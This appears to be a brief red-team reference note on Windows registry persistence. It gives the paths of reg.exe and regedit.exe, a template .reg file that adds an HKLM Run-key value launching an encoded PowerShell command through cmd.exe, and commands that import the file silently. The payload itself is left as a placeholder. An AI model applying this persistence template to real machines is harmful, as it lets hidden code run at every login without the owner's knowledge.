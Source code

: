 # Registry Entry

## 01 - Common Files

### 1.1 - `reg.exe`

```
C:\Windows\System32\reg.exe
C:\Windows\SysWOW64\reg.exe
```

### 1.2 - `regedit.exe`

```
C:\Windows\regedit.exe
C:\Windows\SysWOW64\regedit.exe
```

## 02 - Generate Payloads

TODO: Fill in this info

```
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run]
@=""
"<value_1>"="C:\\Windows\\System32\\cmd.exe /c powershell.exe -e <base64_encoded>"
"<value_n>"=""
```

## 03 - Execute Payloads

```
C:\> reg.exe import file.reg

C:\> regedit.exe /s file.reg
```